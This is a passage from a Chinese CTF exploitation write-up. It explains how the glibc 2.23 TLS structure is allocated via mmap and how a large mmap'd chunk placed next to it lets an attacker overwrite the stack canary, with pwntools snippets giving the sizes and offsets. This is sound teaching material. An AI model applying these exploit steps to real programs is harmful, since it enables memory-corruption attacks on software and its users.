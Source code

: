 接下来的逻辑暂时没有跟进的需要,功能是将canary的值加入TLS结构体，那么TLS结构体是如何生成的呢。

生成TLS结构体的函数位于`glibc-2.23/elf/dl-tls.c`

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-22-041149.png)

可以看到，程序事实上调用了`__libc_memalign`函数来分配内存，而**`__libc_memalign`函数最终事实上调用的是`mmap`函数**！

#### <a class="reference-link" name="%E5%8A%AB%E6%8C%81TLS%E7%BB%93%E6%9E%84%E4%BD%93"></a>劫持TLS结构体

事实上，我们如果能够改写TLS结构体的内容，我们就能够直接覆盖Canary！

而刚刚说过，TLS结构体使用的是`mmap`函数分配的，如果我们能够直接使用mmap分配一个`Chunk`，就可以分配到和TLS结构体相邻的位置。而对于malloc函数来说，如果size足够大就能直接通过mmap分配内存给chunk！

我们一般设置size为`0x21000`或以上。

此处payload为：

```
sh.recvuntil('nGive your notebook size : ')
sh.sendline(str(int(0x24000)))
```

#### <a class="reference-link" name="%E8%A6%86%E7%9B%96TLS%E4%B8%AD%E7%9A%84Canary%E5%86%85%E5%AE%B9"></a>覆盖TLS中的Canary内容

此处我们需要计算出TLS结构体中Canary和我们可写起始地址的距离，我们通过调试计算，

首先在`0x080488C9`处下断点。

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-22-042924.png)

可以看到，栈顶的`0xf7db8008`就是我们的`note_book`指针指向位置

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-22-043120.png)

然后使用`search`命令可以快速定位TLS中的canary值位置。

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-22-043316.png)

可以计算偏移为`0x2570C`。

那么我们可以将`title_size`设置为`0x2570C`。

```
sh.recvuntil('Give your title size : ')
sh.sendline(str(int(0x2570C - 0x10)))
```

那么接下来向note写值时，程序将会向`notebook[title_size + 0x10]`即`0xf7db8008 + 0x2570C - 0x10 + 0x10`处写值。

```
sh.recvuntil('invalid ! please re-enter :n')
sh.sendline(str(int(0x10)))
sh.recvuntil('nGive your title : ')
sh.sendline('x00' * 0xF)
sh.recvuntil('Give your note : ')
sh.send('A' * 4)
```
